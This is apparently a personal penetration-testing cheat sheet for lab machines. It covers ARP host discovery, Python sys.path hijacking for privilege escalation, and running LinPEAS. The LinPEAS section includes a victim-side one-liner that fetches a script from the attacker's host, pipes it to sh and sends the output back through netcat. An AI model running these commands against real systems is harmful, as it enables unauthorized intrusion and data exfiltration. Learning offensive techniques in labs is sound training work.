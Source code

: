 
Check what other hosts the target as been talking too
```bash
arp -a
```
<br><br><br>



# Python Priv Esc

Check permissions for any files that are run (both the running file and the module it calls)
- You can change the main module file if you have permission

- Or you can run this and check if the module has a low priority (the order of the output is the order python checks to import a file so if u can place it above it will call your code)


```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```
<br><br><br>



# Running LinPEAS and Outputting to Host Machine

Download LinPEAS:
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
<br><br><br>


Start a simple HTTP server on your host to serve the file:
```bash
python -m http.server
```
<br><br><br>


Listen on your host machine to capture LinPEAS output:
```bash
nc -lvnp 9002 | tee linpeas.out
```
<br><br><br>


On the victim machine, fetch and run LinPEAS, and pipe output back to your host:
```bash
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002
```
<br><br><br>



# Misc (IDK where to put them)

They say to check for these (IDK where to put this other than misc)
